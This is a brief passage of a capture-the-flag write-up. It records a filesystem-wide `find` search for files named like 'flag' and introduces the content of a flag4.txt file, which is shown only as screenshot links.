            
  
        - We did a wildcard search for files with `flags` in the substring:
  
          - `find / -iname *flag* 2>/dev/null`
            
          - Here is the content of the flag4.txt
            